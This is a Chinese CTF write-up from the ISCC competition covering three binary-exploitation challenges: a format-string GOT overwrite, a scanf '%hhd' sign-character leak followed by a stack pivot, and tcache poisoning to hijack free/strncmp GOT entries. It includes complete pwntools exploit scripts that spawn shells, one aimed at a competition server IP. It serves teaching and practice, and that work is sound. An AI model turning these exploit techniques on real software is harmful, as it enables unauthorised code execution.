

由于本人比较菜，同时学pwn的时间不是太久，因此iscc的很多堆还没有能力去做，只把比赛的栈题给做完了 赛后又做了一下unlink那道题。其他堆题目前还没有复现。（有一个格式化字符串太简单了，我就不写wp了）
## sim_treasure


### 大致思路：

程序无限次执行格式化字符串漏洞，思路为泄露出函数的真实地址，然后利用libc库里的偏移得到libc基地址，然后加上system函数在libc库中的偏移，用printf把自己的got表改成system函数，然后输入参数/bin/sh即可获取shell。

### EXP:

```python
from pwn import *

context.log_level = "debug"

p=remote('123.57.69.203',7010)
#p = process('./b')

#gdb.attach(p)
e = ELF('./b')
libc = ELF('/home/hacker/Desktop/libc-2.27.so')

payload = '%2$p'
p.sendline(payload)
p.recvuntil('\x78')
leak=int(p.recv(8),16)
print(hex(leak))
payload='%8$p'
p.sendline(payload)
printf_got_addr=e.got['printf']

payload=p32(printf_got_addr)+'%6$s'
p.sendline(payload)
printf_addr=u32(p.recvuntil('\xf7')[-4:])
libc=printf_addr-0x512d0
print('libc_base--------->',libc)
hook=leak-0x88
ret_addr=0x080483da
ret_hook=ret_addr&0xffff
bin_sh=0x0017e1db+libc
system=0x0003d200+libc

low_offset=system&0xffff
high_offset=(system>>16)&0xffff
print('hook------------->',hex(hook))
print('low--------------->',hex(low_offset))
print('high-------------->',hex(high_offset))
payload=p32(printf_got_addr)+p32(printf_got_addr+2)+'%'+str(low_offset-8)+'c%6$hn'+'%'+str(high_offset-low_offset)+'c%7$hn'
p.sendline(payload)

p.sendline('/bin/sh')
p.interactive()
```


## 跳一跳

### 总结：

1、scanf函数的参数为%hhd时，可以输入`-`在不覆盖栈中数据的情况下，占据一个字节，配合%s可以泄露栈中任何一个内容。

2、根据以往的经验感觉没有什么核心利用点的时候，尽量把注意力都集中到新遇到的知识上，这道题我有想过找一些字符去实现在不覆盖栈中数据的情况下，但是没有找到合适的字符，从而放弃了这个思路，甚至尝试用爆破的方式来劫持执行流（不过最后失败了）。

### 保护策略：


### 程序分析：


这道题的关键点就一个，当scanf用%hhd的时候，`-`这个东西可以不覆盖栈中数据的情况下在栈中占一位，说的有点抽象，代码和效果如下。

```python
for i in range(0x58):
    sleep(0.01)
    p.sendline('17')
for i in range(0x6):
    sleep(0.01)
    p.sendline('-')
for i in range(0x4a):
    sleep(0.01)
    p.sendline('18')
p.sendline('a')
```




由上图可以发现存在-的地方没有被填入的垃圾数据所覆盖（0x7f4d1e038680依然存在）

原理如下：

> scanf函数在格式化字符类型和输入字符类型不匹配的时候，不会把输入的字符写到栈上，也不会报错，而是继续运行
>
> scanf("%hhd",a)
>
> 当输入的字符为数字时，才可以被写入栈中，如果是字母则会被定义为非法字符，则会停留在缓冲区导致后面即使出现数字也仅仅是停留到了缓冲区（因为a在缓冲区进不去，后面的数据也都进不去）
>
> 通过阅读scanf函数的源码发现（%d的情况），输入的数据是先到了缓冲区中，然后对输入的数据进行检查，如果是+或-或是数字则会把这个数据从缓冲区中接收，否则不接收（例如字母）。继续阅读scanf的源码发现检测到+和-时，指针向后移动了一位（并不读取+或-到栈上），并且此时程序会认为这个符号仅仅是来表示正负的，然后将继续从缓冲区中读取数据，直到遇到\n。
>
> 这样就造成了最开始说的bug，+和-通过了检查从缓冲区里被提取了出来，但是它让指针往后挪了一位，并没有被写入到内存里，从而达到了占位的目的。


如果是正号或者负号 则可以触发char_buffer_add

下面是对符号检查部分的代码

```c
/* Check for a sign.  */
  negative = 0;
  if (*s == L_('-'))
    {
      negative = 1;
      ++s;
    }
  else if (*s == L_('+'))
    ++s;
```

（本人只是一位大一的初学者，第一次进行scanf的源码调试（关于搭建源码调试环境的文章在这里  [here](https://www.cnblogs.com/ZIKH26/articles/16150232.html))，如果上述有理解错误的地方，还请各位师傅斧正）

这个地方是可以简单验证一下，看看是否输入字符会把后面的数字卡在缓冲区。

代码如下：

```c
#include <stdio.h>
int main()
{
	char buf [256];
	scanf("%hhd",buf);
	printf("%s",buf);
	getchar();
	gets(buf);
	return 0;
} 

```

如果只输入数字的话，getchar会把回车给读取，然后触发gets就可以再输入一次，效果如下：


如果先输入数字，再输入字符，再输入数字的话，则不会触发gets(因为字符和原本的回车都留在了缓冲区里，getchar并没有读取这个回车，导致了gets执行的时候碰到了回车，gets直接失效)，效果如下：


知道了这个原理，这道题基本就乱打了。先看一下栈里能利用的内容


发现里面有\_start函数的地址，那用这个可以拿到程序基地址。还有个\_setbuffer函数的地址，可以用它来匹配libc库，然后再泄露个栈地址，用于之后的栈迁移，最后就是把canary给泄露出来，用于最后的劫持执行流

### 大致思路：

我最开始泄露的是IO\_2\_1_stderr的地址，但是这样做的后果就是搜到了将近两百个版本的libc库，因此泄露setbuffer函数的真实地址。

泄露的思路提前计算好要泄露的位置，然后将这些位置布置成`-` 其他位置则填充成垃圾数据，如果是六字节的栈地址，则只填充六字节的`-`，另外两字节补成垃圾数据，避免让00截断%s。

得到泄露的内容之后就是一个简单的栈迁移，提前布置system函数以及参数在栈中，改写rbp，最后用leave;ret指令完成迁移获取shell。

### EXP:

```python
from pwn import *
from LibcSearcher import *
context(arch='amd64',os='linux',log_level='debug')
def autofill_long_libc(target_vul,leak_addr):
    obj = LibcSearcher(target_vul, leak_addr)
    libc_base = leak_addr - obj.dump(target_vul)
    sys_addr = libc_base + obj.dump('system')
    bin_sh_addr = libc_base + obj.dump('str_bin_sh')
    print('libc_base---->',hex(libc_base))
    return sys_addr, bin_sh_addr
def autofill_local_libc(target_vul,leak_addr,libc):
    libc_base = leak_addr - libc.symbols[target_vul]
    sys_addr = libc_base + libc.symbols['system']
    bin_sh_addr = libc_base + libc.search("/bin/sh").next()
    print('libc_base---->',hex(libc_base))
    return sys_addr,bin_sh_addr
#p=remote('123.57.69.203',7020)
p=process('./a')
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
#gdb.attach(p)
p.recvuntil('Hello CTFer! Welcome to the world of pwn~\n')

for i in range(0xa8):
    sleep(0.01)
    p.sendline('18')
for i in range(0x6):
    sleep(0.01)
    p.sendline('-')


'''leak libc_base'''
for i in range(0x1a):
    sleep(0.01)
    p.sendline('19')
for i in range (0x6):
    sleep(0.01)
    p.sendline('-')

'''leak base'''
for i in range(2):
    sleep(0.01)
    p.sendline('120')
for i in range(6):
    sleep(0.01)
    p.sendline('-')

'''leak canary'''
for i in range(0x3):
    sleep(0.01)
    p.sendline('21')

p.send('a')
a=p.recv()
setbuffer_addr=u64(a[0xb7:0xbd].ljust(8,'\x00'))-231

print('setbuffer_addr-------------------->',hex(setbuffer_addr))
base=u64(a[0xd7:0xdd].ljust(8,'\x00'))-0x10a0

print('base------------------------------->',hex(base))
leak_stack=u64(a[0xdf:0xe5].ljust(8,'\x00'))
print('leak_stack-------------------------->',hex(leak_stack))
canary=u64(a[0xe8:0xef].rjust(8,'\x00'))
print('canary------------------------------>',hex(canary))
print(a)

#result=autofill_long_libc('setbuffer',setbuffer_addr)
result=autofill_local_libc('setbuffer',setbuffer_addr,libc)
sys_addr=result[0]
bin_sh_addr=result[1]
pop_rdi_addr=base+0x130b
leave_addr=base+0x124a
print(hex(bin_sh_addr))

payload=p64(pop_rdi_addr)+p64(bin_sh_addr)+p64(sys_addr)
payload=payload.ljust(0xd8,'a')
payload+=p64(canary)+p64(leak_stack-0x1d0-8)+p64(leave_addr)
p.sendline(payload)

p.interactive()
```


## unlink

### 保护策略：


### 漏洞分析


存在堆溢出，虽然题目是叫做unlink，但是我试了一下，似乎unlink做不出来（可能是我太菜了）。即使patchup成2.23的，等unlink之后，ptr=&ptr-0x18，再往fake_chunk写入数据，数据会覆盖掉stdin指针。导致程序无法再输入了。因此用unlink的方法就卡住了。

不过这道题是2.27的，因此可以利用溢出打tcache attack。

### 大致思路

先申请两个chunk，低地址的chunk作为溢出堆块。然后释放掉高地址的chunk，利用溢出修改tcachebin中chunk的fd指针（**这个fd指针修改成哪，接下来申请的chunk的地址就在哪。不过由于从tcachebin中申请chunk时，会将其的bk指针的位置赋值成0，如果fd修改成了一个不可写的地址，程序在这里就会崩溃掉）**

我们fd指针修改为cmd的地址


它位于bss段，是可写的。因此我们可以将它申请到bss段上，再往这个chunk里写入数据时，就修改了bss段上存储的chunk地址，将chunk地址改为free函数的got表，再对这个chunk进行修改，即可修改free的got表。

同时要考虑到修改完got表后，下一次输入的数据依旧再往got表里输入，这就意味着我们无法先修改free的真实地址为system，再传入/bin/sh**（因为下回传/bin/sh的时候，free的真实地址又被改成了/bin/sh）<u>因此需要传参和修改got表同时进行</u>**。这道题因为got表中的free和strncmp是挨着的，所以我们可以劫持free的got表，往里面写入/bin/sh\x00和system的plt地址，此时字符串的开头则为/bin/sh\x00（也就是之后strncmp的第一个参数）。同时也将system的plt地址写入到了strncmp中，等到执行strncmp的时候，成功获取shell。

[tools源码](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

### EXP

```python
from tools import *
p,e,libc=load('a')
debug(p,0x4009BD)
def add(index,lenth,content):
    p.sendline('add')
    #p.sendline(fake_chunk)
    p.recvuntil('Index: ')
    p.sendline(str(index))
    p.recvuntil('Size: ')
    p.sendline(str(lenth))
    p.recvuntil('Data: ')
    p.sendline(content)

def remove(index):
    p.sendline('remove')
    p.recvuntil('Index: ')
    p.sendline(str(index))
bss_addr=0x6010B0
back_addr=0x400896
sys_addr=e.plt['system']
free_got_addr=e.got['free']
add(0,0x40,b'aaaa')#overflow_chunk
add(1,0x30,b'bbbb')
remove(0)
remove(1)
payload=72*b'a'+p64(0x41)+p64(bss_addr)
add(0,0x40,payload)
add(2,0x30,b'bb')
add(3,0x30,p64(free_got_addr))
p.sendline(b'/bin/sh\x00'+p64(sys_addr))
p.interactive()
```